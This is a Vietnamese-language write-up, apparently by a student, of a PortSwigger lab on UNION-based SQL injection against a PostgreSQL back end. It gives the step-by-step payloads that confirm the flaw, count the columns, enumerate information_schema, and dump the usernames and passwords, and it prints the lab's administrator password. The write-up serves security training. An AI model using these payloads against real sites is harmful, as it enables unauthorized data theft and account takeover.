

# Write-up: SQL injection attack, listing the database contents on non-Oracle databases

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin tài khoản `adminstrator` rồi đăng nhập.

### Mục tiêu
Đăng nhập dưới tên `administrator`.

### Công cụ:
- BurpSuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL:
  - **Kết quả:** xuất hiện lỗi SQL, xác nhận lỗ hổng
    

- Xác định số cột trả về bằng:
  - Payload:
    ```
    'ORDER BY 3--
    ```
  - **Kết quả**: xác nhận có 2 cột do payload trên gây ra lỗi
    

- Xác định version của Database:
  - Payload:
    ```
    'UNION SELECT NULL,version()--
    ```
  - **Kết quả** DB là loại PostgreSQL
    

2. **Tạo Payload và Khai thác**
- Tạo payload kiểu tấn công UNION lấy tên bảng hiện tại đang sử dụng:
  ```
  GET /filter?category=Gifts'UNION+SELECT+table_name,NULL+FROM+information_schema.tables+WHERE+table_schema+=+'public'-- HTTP/2
  ```
  - **Kết quả**: trả về tên bảng `users_sktknn`
  

- Tạo payload kiểu tấn công UNION lấy tên cột trong bảng `users_sktknn`
    ```
    GET /filter?category=Gifts'UNION+SELECT+string_agg(column_name,','),NULL+FROM+information_schema.columns+WHERE+table_name='users_sktknn'-- HTTP/2
    ```
    - **Kết quả**: trả về tên các cột `username_tpjeoz`, `password_rjkqop`.
    

- Tạo payload kiểu tấn công UNION lấy thông tin trong các cột `username_tpjeoz`, `password_rjkqop`
    ```
    GET /filter?category=Gifts'+UNION+SELECT+string_agg(username_tpjeoz,+','),+string_agg(password_rjkqop,+',')+FROM+users_sktknn--
    ```
    - **Kết quả**: trả về thông tin các user trong bảng  `users_sktknn` trong đó có user `administrator`
    

3. **Kết quả**
- Login bằng tài khoản `administrator` : `icz02qt9ghwv9qq8elm6` và hoàn thành bài lab.
    

### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột và lấy thông tin phiên bản.
- Hiểu cách sử dụng bảng information_schema.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.